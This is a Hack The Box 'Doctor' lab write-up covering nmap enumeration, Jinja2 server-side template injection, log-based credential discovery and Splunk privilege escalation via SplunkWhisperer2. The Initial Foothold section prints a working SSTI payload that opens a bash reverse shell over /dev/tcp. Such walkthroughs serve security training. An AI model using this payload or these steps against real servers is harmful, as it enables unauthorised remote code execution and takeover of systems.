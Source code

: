 # Hack the box
## Doctor writeup

### Enumeartion / Recon

+ nmap port scan - ```nmap -sC -sV -oN nmap.txt 10.10.10.209```
```bash
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Doctor
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
8089/tcp open  ssl/unknown
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-06T15:57:27
| Not valid after:  2023-09-06T15:57:27
| MD5:   db23:4e5c:546d:8895:0f5f:8f42:5e90:6787
|_SHA-1: 7ec9:1bb7:343f:f7f6:bdd7:d015:d720:6f6f:19e2:098b
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
+ Open ports are
  + ssh on port 22
  + http on port 80
  + splunk on port 8089

+ Nothing interesting found on the website, looks like a static website, checking hostnames
+ Found a hostname ```doctors.htb``` on the website, adding to ```/etc/hosts``` file
+ Visiting doctors.htb sends us to another page
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/cde2e474-48ac-406a-aa38-107b86c7b564)
+ We can register and it creates an account for 20 minutes
+ Checking the source and see something strange -
```bash
<!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->
```
+ This looks like a blog post website, we can create posts on this website.
+ Checking /archive directory but nothing interesting
+ Checking the source of /archive and found something interesting, it has xml output of the posts that we create. Checking for XXE and SSTI vulnerabilities.
+ TRYING SSTI hacktricks injection ```{{ 7*7 }}```, no success on the blog page
+ But we get 49 on the archive source ```view-source:http://doctors.htb/archive```
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/58379fa5-5355-4014-aec1-113cebd7ae90)
+ Testing multiple Server Side Template Injection from https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti
+ **SUCCESS** We have successful SSTI
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/7da4af12-c81a-428f-81bd-7caedaf941ff)

### Initial Foothold

+ Checking for reverse shell payloads on PayloadAllTheThings SSTI - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2
+ The one that worked was - ```{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("bash -c 'bash -i >& /dev/tcp/<ip>/4444 0>&1'").read()}}{%endif%}{%endfor%}```
+ Starting netcat listener, refreshing the /archive direcroty - ```nc -lvnp 4444``` and getting reverse shell as web@doctor
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/2e42813a-dcba-415b-bdbf-b15d7951a808)
+ ```/home``` directory has another user shaun with user.txt file
+ We are part of the admin group, we can check audit logs for passwords
  ```bash
  id
  uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
  ```

### Lateral movement

+ To get user we need access to shaun user
+ Making the shell stable
  1. run this command ```python3 -c 'import pty;pty.spawn("/bin/bash")'``` on victim machine
  2. if the above doesn't work try - ```script -qc /bin/bash /dev/null```
  3. Do **ctrl+z** to background the process
  4. On your host machine in the same session do ```stty raw -echo;fg``` + Enter + Enter
  5. Now you have a stable shell
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/69c9d560-27e9-415b-9dfb-890b9f950dd6)
+ Running Linpeas on the machine
+ Found something in the logs
```bash
/var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```
+ Trying the password for shaun user
+ **BOOM**, we are user
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/6dc8a106-f03d-4179-8165-504fc8b7999d)

### Privilege escalation

+ Splunk is running on the machine 
+ Checking who is running splunk
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/e21dea3b-0b59-4aef-b05d-4695d319b512)
+ This can be a way to get root if splunk is vulnerable to code execution
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/d0e774cc-44e5-44ed-8bfa-8fc93accf825)
+ This seems pretty outdated, checking exploits online.
+ Found an exploit for this version called SplunkWhisperer2 - https://github.com/cnotin/SplunkWhisperer2.git
+ Running the exploit
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/3837527a-08c3-41ef-a979-ab7c8d316bf2)
+ We get authentication failure, since we have the creds from earlier enumeration, we can try the credentials
+ Adding a reverse shell payload from - https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/0acf874a-a1e3-44cc-9bd3-ce4591808089)
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/16999956-7a6a-4598-aa27-a1655be541cd)
+ PWNED !!!

## Highlights

1. **Enumeration** - Nmap scan - We did an initial nmap scan and discovered a lot of things, port 22 SSH, the banner tells us we are running an Ubuntu server, http website which led us to code execution via the SSTI injection, Splunk port 8089 which gave us root access to the machine.
2. **Preparation** - Github repos and EXPLOIT-DB - finding reverse shell payloads, finding POCs of exploits from CVE IDs, finding injecton payloads.
3. **Exploitation** - Running the exploits, Ensuring that all the dependencies are installed for the exploits to run.
>one thing I did not mention was for running the final exploit to get root, I did not have my python set up properly so I could not run
```pip3 -r requirements.txt```
>I had to create a virtual environment and then install the requirements, which was successful, read more here - https://docs.python.org/3/library/venv.html
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/f47527d0-5b11-460b-a75a-02e05109df58)
4. **Post Exploitation** - Running Linpeas.sh (from the PEASS suite - https://github.com/peass-ng/PEASS-ng/tree/master), searching for passwords in files - ```grep -R -e 'password' <dir>```, checking running processes - ```ps -ef ```

